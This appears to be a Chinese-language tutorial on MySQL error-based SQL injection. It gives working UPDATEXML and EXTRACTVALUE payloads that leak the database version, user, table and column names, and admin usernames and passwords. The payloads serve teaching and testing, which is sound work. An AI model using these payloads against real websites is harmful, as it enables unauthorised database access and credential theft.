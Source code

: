 ![](http://image.ixysec.com/image/sql/sql069.png)


利用UPDATEXML函数报错注入：

```
UPDATEXML (XML_document, XPath_string, new_value);
第一个参数：XML_document是String格式，为XML文档对象的名称
第二个参数：XPath_string (Xpath格式的字符串)
第三个参数：new_value，String格式，替换查找到的符合条件的数据
```

查询信息：
```
and updatexml(0,concat(0x7c,version()),1)  //查询数据库版本
and updatexml(0,concat(0x7c,user()),1)  //查询当前数据库用户
and updatexml(0,concat(0x7c,database()),1)  //查询当前使用数据库名
因为第二个参数给的并不是标准的Xpath，所以会引发报错。
```

查询表名
```
and updatexml(0,concat(0x7c,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716C696E)),1)  //实战中要注意括号的嵌套。
```
![](http://image.ixysec.com/image/sql/sql070.png)

查询字段名

```
and updatexml(0,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name=0x61646D696E)),1)
```

![](http://image.ixysec.com/image/sql/sql071.png)

查询数据

```
and updatexml(0,concat(0x7c,(select group_concat(username) from admin)),1)   //admin是查询到的表名，username是上面查到的字段名
and updatexml(0,concat(0x7c,(select concat(username,0x7c,password) from admin limit 0,1)),1)   //利用concat()将两列内容拼接成一列显示，如果表中有多条数据需要使用limit一次遍历一条
```

![](http://image.ixysec.com/image/sql/sql072.png)

![](http://image.ixysec.com/image/sql/sql073.png)

利用EXTRACTVALUE函数报错注入：

payload：
```
and EXTRACTVALUE(0,concat(0x7c,version())) //查版本

and EXTRACTVALUE(0,concat(0x7c,(select group_concat(table_name) from information_schema.tables where table_schema = database()))) //查表名

and EXTRACTVALUE(0,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name='admin')))   //查字段名

and EXTRACTVALUE(0,concat(0x7c,(select concat(username,0x7c,password) from admin limit 0,1)))  //查数据
```
